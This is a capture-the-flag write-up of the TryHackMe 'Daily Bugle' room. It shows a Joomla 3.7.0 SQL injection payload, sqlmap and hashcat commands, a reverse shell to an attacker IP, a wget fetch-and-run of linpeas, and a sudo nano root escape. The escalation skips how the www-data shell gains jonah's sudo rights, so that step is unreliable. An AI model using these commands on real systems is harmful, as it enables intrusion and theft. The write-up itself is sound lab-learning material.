 # Joomla version number : 3.7.0 Exploitation Write-up (Tryhackme Daily Bugle room )
## 1. Introduction
###
In this penetration testing challenge, I targeted a machine running Joomla 3.7.0 hosted at http://10.10.47.25. The goal was to exploit the system, gain administrative access, establish a reverse shell, and ultimately capture both the user and root flags through privilege escalation.

## 2. Initial Reconnaissance
###
I started with a basic Nmap scan to identify open ports and services:
nmap -sC -sV -oN nmap.txt 10.10.47.25

Results:

  Port 80: Apache HTTP server

  Joomla 3.7.0 CMS detected from page source

  ## 3. Exploitation Process
  ###
  ** 3.1 SQL Injection in Joomla 3.7.0 **

Joomla 3.7.0 contains a SQL injection vulnerability in the com_fields component due to improper input validation. I confirmed the vulnerability using a payload:

bash


http://10.10.47.25/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(0x7e,(SELECT user())),0)

To automate the data extraction, I used sqlmap:

sqlmap -u "http://10.10.47.25/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1" --dump



Extracted Data:

  Username: Jonah

  Password Hash: $2y$10$0veO/JSFh4389Lluc4Xya.df...





** 3.2 Cracking the Password Hash **




The bcrypt hash was cracked using Hashcat with the rockyou.txt wordlist:


hashcat -m 3200 hash.txt rockyou.txt

The password i got is : spiderman123






** 3.3 Joomla Admin Login and Reverse Shell Upload **







Using the credentials Jonah:spiderman123, I logged into the admin panel at:

http://10.10.47.25/administrator/


Inside the Templates > Beez3 > index.php, I replaced the code with a PHP reverse shell payload (from pentestmonkey) and changed the IP and port accordingly:

$ip = '10.13.83.247';  // Attacker IP
$port = 7777;          // Listening port


** 3.4 Reverse Shell Access **

Before executing the payload, I set up a listener on my machine:

nc -lvnp 7777

Then I accessed:

http://10.10.47.25/templates/beez3/index.php

Boom — I got a shell as www-data:

Linux target 4.x.x-xx-generic
uid=33(www-data) gid=33(www-data) groups=33(www-data)

## 4. Post Exploitation

** 4.1 Enumerating Users **

From the reverse shell, I checked /home/:

ls /home/

Found a user named jonah. I navigated to the home directory and found the user flag:

cat /home/jonah/user.txt

User Flag Acquired ✅
** 4.2 Privilege Escalation **

To escalate privileges, I uploaded LinPeas.sh to the target system by hosting it on a Python HTTP server:

# On my machine:
python3 -m http.server 9999

# On target (via reverse shell):
wget http://10.13.83.247:9999/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

** 4.3 Exploiting Sudo Rights **

LinPeas revealed that the user jonah had passwordless sudo access to /usr/bin/nano:

(ALL) NOPASSWD: /usr/bin/nano

To escalate, I ran:

sudo /usr/bin/nano

Then, within nano:

  Pressed Ctrl + R (read file)

  Then Ctrl + X (execute command)

  Typed:

  reset; sh 1>&0 2>&0

  This dropped me into a root shell!

** 4.4 Root Flag **

Once root access was obtained, I navigated to /root/ and grabbed the flag:

cat /root/root.txt

Root Flag Acquired ✅


## 5. Conclusion

This challenge involved a full exploitation chain:

   ✅ SQL Injection to extract credentials

   ✅ Cracking password hashes with Hashcat

   ✅ Joomla admin login and remote PHP shell upload

   ✅ Reverse shell access

   ✅ Post-exploitation enumeration with LinPeas

   ✅ Privilege escalation using sudo misconfigurations

   ✅ Extraction of both user and root flags

This exercise reinforced key web exploitation and Linux post-exploitation techniques commonly found in real-world scenarios.




  
